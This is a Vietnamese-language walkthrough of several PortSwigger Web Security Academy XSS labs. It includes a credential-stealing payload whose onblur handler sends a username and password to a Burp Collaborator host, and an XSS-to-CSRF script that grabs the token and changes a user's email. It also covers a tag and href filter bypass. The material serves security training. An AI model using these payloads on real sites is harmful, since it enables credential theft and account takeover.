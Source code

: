 > Cách làm khác

```
<input required type="username" name="username" id="username">
<input required type="password" name="password" onblur="fetch('https://2twcxqxfboxobqic7efcbcmnmes6gv.burpcollaborator.net',{
    method:'POST',
    mode: 'no-cors',
    body:username.value + ':' + this.value
});"> 
```
Sau khi thử payload và test trên local thì chúng ta được kết quả sau khi đăng nhập như sau

![image](https://user-images.githubusercontent.com/68894302/171694383-e8ce2ae5-17e6-4e3a-b6d4-1d6ad4caf43a.png)
Lí do dùng `onblur` vì nó sẽ thực thi hàm JS khi người dùng break ra khỏi trường input, khá là hay

Từ script đó chúng ta có được password của administrator qua burp collab

![image](https://user-images.githubusercontent.com/68894302/171696876-e83c9885-8d60-4b4c-926e-fba6b1a3829c.png)

---
## Lab: Exploiting XSS to perform CSRF

Ở bài này chúng ta sẽ sử dụng đối tượng XMLHttpRequest của AJAX để trao đổi dữ liệu với máy chủ thông qua XSS dẫn tới CSRF

``` javascript
</script>
//AJAX XMLHttpRequest object
var xhttp = new XMLHttpRequest(); 
xhttp.onload = function(){
    var token_csrf = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeRequest = new XMLHttpRequest();
    changeRequest.open("POST",'/my-account/change-email',true);
    changeRequest.send('email=test@gmail.com' + '&csrf=' + token_csrf);
};

xhttp.open("GET", "/my-account", true);
xhttp.send();
</script>
```
Đoạn mã javascript ở trên đã tương tác với máy chủ dưới nền sau khi nhận được request sau đó thay đổi email của bất kì người dùng nào thành `test@gmail.com` 

---
## Lab: Reflected XSS with event handlers and href attributes blocked

Có một blacklist các tag bị chặn, sau khi bruteforce thì thấy vẫn còn một số thẻ không bị chặn như
![image](https://user-images.githubusercontent.com/68894302/170742483-84ddcad4-53ac-4e10-9ee7-8f496bbe681f.png)
Nhưng khi thử với thuộc tính `href` thì có vẻ như nó đã bị chặn
```
https://acd51f871f0b90a2c0746c2f008c00e1.web-security-academy.net/?search=%3Ca+href%3D%22https%3A%2F%2F14.rs%22%3EClick%3C%2Fa%3E

(https://acd51f871f0b90a2c0746c2f008c00e1.web-security-academy.net/?search=<a href="https://14.rs">Click</a>)
```
Nhưng thẻ `<animate>` có một số thuộc tính là `attributeName` và `values` để tạo hoạt ảnh cho phần tử theo sạng sau
```
<svg viewBox="0 0 10 10" xmlns="http://www.w3.org/2000/svg">
  <rect width="10" height="10">
    <animate attributeName="rx" values="0;5;0" dur="10s" repeatCount="indefinite" />
  </rect>
```